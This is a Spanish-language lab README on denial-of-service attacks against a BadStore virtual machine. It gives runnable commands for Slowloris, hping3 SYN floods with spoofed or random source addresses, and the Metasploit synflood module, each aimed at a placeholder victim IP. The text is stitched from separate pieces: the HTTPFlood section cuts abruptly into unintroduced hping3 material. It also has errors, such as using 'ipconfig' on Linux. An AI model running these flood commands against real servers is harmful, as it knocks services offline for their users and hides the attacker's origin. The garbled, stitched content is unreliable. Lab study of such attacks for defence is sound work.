

# 	Ataque DoS (Denial Of Service) utilizando HTTPFlood

> [!IMPORTANT]
> Laboratorio HTTPFlood (Kali Linux 2023.4) mediante la utilización de scripts externos como <b>Slowloris</b>, <b>DoS-Tool</b> y <b>TCP-UDP-Flood</b>. Un ataque DoS o DDoS no es más que el envío de un número exageradamente elevado de peticiones a una dirección IP que, normalmente, suele ser un servidor o infraestructura, el cual llega a ser incapaz de gestionar dicho número de peticiones, causando un error o crasheo del sistema y la detención y/o reinicio de servicios, quedando inaccesible al resto de usuarios. 

> En la más cruda realidad, los ataques <b>HTTP flood</b> se basan en las peticiones <b>GET</b> o <b>POST</b> del cliente, es decir, el navegador que quiere acceder al sitio web, el cual envía una de estas solicitudes que, posteriormente, procesa el servidor y, a su vez, envía la respuesta de vuelta al cliente. Como en todo, siempre hay un pero:

- <b>Peticiones GET</b>: recuperan contenido estático (imágenes o bloques de texto), es decir, recibe datos del servidor
- <b>Peticiones POST</b>: se utilizan para acceder a recursos dinámicos, es decir, se envían datos al servidor. 

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/HTTP_Flood_0.gif">
  <source media="(prefers-color-scheme: light)" srcset="images/HTTP_Flood_0.gif">
  
</picture>
</p>

> Ambos pueden utilizarse para efectuar el <b>ataque HTTP Flood</b>, aunque el método POST se emplea con más frecuencia (requiere un procesamiento complejo por parte del servidor), ya que se realizan muchas de estas peticiones simultáneamente y durante un período de tiempo prolongado. A modo general, se usa una <b>botnet</b> para aumentar la cantidad de solicitudes de tal manera que el servidor dedique el mayor volumen de recursos posible a cada petición. 

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/HTTP_Flood_1.png">
  <source media="(prefers-color-scheme: light)" srcset="images/HTTP_Flood_1.png">
  
</picture>
</p>

> ### Abriendo mi propia tienda virtual: BadStore como objetivo :computer:

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/HTTP_Flood_2.png">
  <source media="(prefers-color-scheme: light)" srcset="images/HTTP_Flood_2.png">
  
</picture>
</p>

> <b>BadStore</b> es una aplicación web pre-montada sobre la distribución de Linux ligera (<b>Trinux</b>), la cual permite simular un servidor con todos los servicios activos y una tienda de libros instalada que contiene varios fallos de seguridad, lo que permite realizar laboratorios de hacking y pentesting relativamente reales. Esta distro pesa no más de 10MB, pudiendola montar de forma virtual con VirtualBox, Hyper-V o VMWare. En realidad, esta "web" se ejecuta con Perl, Apache y MySQL, por lo que es muy fácil de configurar y acceder (en realidad parece un VPS).

<b>DESCARGA</b> https://www.vulnhub.com/entry/badstore-123,41/ :floppy_disk:

> Tan solo hay que montar la VM y dejarla arrancar. Una vez que cargue toda la mínima configuración, pulsaremos ENTER para poder dejar el shell completamente activo. Se hace necesario saber la IP de la máquina, la cual logramos saberla mediante el comando: 
<b>

```
ipconfig
```
</b>

Obtenemos los siguientes resultados:

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/HTTP_Flood_3.png">
  <source media="(prefers-color-scheme: light)" srcset="images/HTTP_Flood_3.png">
  
</picture>
</p>

Ya está disponible la dirección IP: <b>192.168.0.109</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/HTTP_Flood_4.png">
  <source media="(prefers-color-scheme: light)" srcset="images/HTTP_Flood_4.png">
  
</picture>
</p>

> ### Trabajando con HTTPFlood :computer:
> En este caso, utilizaremos <b>SlowLoris</b>, una aplicación que se instalará en Kali Linux, la cual proporciona el envío de múltiples solicitudes al objetivo, generando botnets con mucho tráfico para realizar ataques DDoS en cualquier servidor web bajo la protección de un tráfico HTTP totalmente legítimo. En realidad, es una herramienta de código abierto desarrollada en Python, descargable desde GitHub de forma gratuita.

> Veamos diversos tipos de ataque HTTPFlooding:

- <b>Paso 1</b>: En la shell (con privilegios de administrador), lanzamos el comando o, si no está disponible, instalaremos el paquete mediante el código de clonado de GitHub:
<b>

```
git clone https://github.com/gkbrk/slowloris.git
```
</b>

- <b>Paso 2</b>: Accedemos a la carpeta creada con la importación de GitHub (al clonar se creará automáticamente la carpeta con el nombre del recurso) con el comando:
<b>

```
cd Slowloris
```
</b>

Se inicia el servicio de Apache, comprobando que está en activo ya el servicio en el sistema, lo cual podemos realizarlo mediante los siguientes comandos:
<b>

```
service apache2 start
```
```
service apache2 status
```
</b>

- <b>Paso 3</b>: Ahora podemos realizar un ataque muy sencillo de tipo DDoS con el comando:
<b>

```
python3 slowloris.py [ip_victima] -s 500
```
</b>

- Entre los diversos modificadores, se pueden elegir:
  - <b>-p</b>: puerto del webserver, puerto 80 por defecto
  - <b>-s</b>: número de sockets creados para usar en el test
  - <b>-v</b>: aumenta la información en la salida (terminal de Kali Linux)
  - <b>-ua</b>: randuseragents, utiliza user-agents aleatorios en cada petición
  - <b>-x</b>: utiliza proxy de tipo SOCK5 para la conexión
  - <b>-https</b>: utiliza el protocolo HTTPS para cada petición
  - <b>-sleeptime</b>: tiempo de "descanso" entre envíos


------------------------------------------------------------------------------


Se puede comprobar que <b>-p</b> es utilizado para determinar el puerto, que <b>-S</b> activa la flag SYN del paquete TCP-IP, y que <b>--flood</b> indica que el envío de paquetes se realizará de la manera más rápida posible. Además, podemos encubrir el origen con múltiples variantes

<b>

```
hping3 -a [ip_atacante_falsa] -p 80  -S --flood [ip_victima] # IP de origen encubierta
```
</b>

<b>

```
hping3 --rand-source -p 80  -S --flood [ip_victima] # IP de origen generada aleatoriamente
```
</b>

<b>
```
hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.47
```
</b>
Podemos comprobar que las variables <b>-c</b> determina la cantidad de paquetes que se enviarán, que <b>-S</b> activa la flag SYN del paquete TCP-IP, que <b>-p</b> es utilizado para determinar el puerto al que realizar el ataque, <b>-d</b> determina el tamaño de los paquetes que se envían y que <b>-w</b> sirve para mostrar las respuestas Windows.

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_4.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_4.png">
  
</picture>
</p>

> ### Trabajando con SYNFlood: METASPLOIT SynFlood :computer:
> <b>SynFlood</b> es una de las herramientas auxiliares disponibles en el <b>Framework Metasploit</b> donde, de nuevo, la herramienta se aprovecha de un fallo en la forma en que la mayoría de los hosts tienen implementado el handshake TCP de tres vías.
> Veamos la realización del ataque SYN Flooding:

- <b>Paso 1</b>: En la shell (con privilegios de administrador), arrancamos PostGreSQL:
<b>

```
service postgresql start
```
</b>

- <b>Paso 2</b>: Posteriormente, cargamos el Framework Metasploit con ayuda del comando:
<b>

```
msfconsole
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_5.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_5.png">
  
</picture>
</p>

- <b>Paso 3</b>: Ya en el Framework Metasploit, nos disponemos a cargar la herramienta auxiliar con ayuda del comando:
<b>

```
use auxiliary/dos/tcp/synflood
```
</b>

- <b>Paso 4</b>: Gracias al comando que mostramos a continuación, podemos configurar la IP de la víctima:
<b>

```
set RHOST [ip_victima]
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_6.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_6.png">
  
</picture>
</p>

Podemos comprobar si está o no configurado mediante:
<b>

```
show options
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_7.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_7.png">
  
</picture>
</p>

- <b>Paso 5</b>: Ya podemos realizar el ataque SYN Flood sin problema:
<b>

```
Exploit
```
</b>

<p align="center">
<picture>
  <source media="(prefers-color-scheme: dark)" srcset="images/TCPSyn_8.png">
  <source media="(prefers-color-scheme: light)" srcset="images/TCPSyn_8.png">
  
</picture>
</p>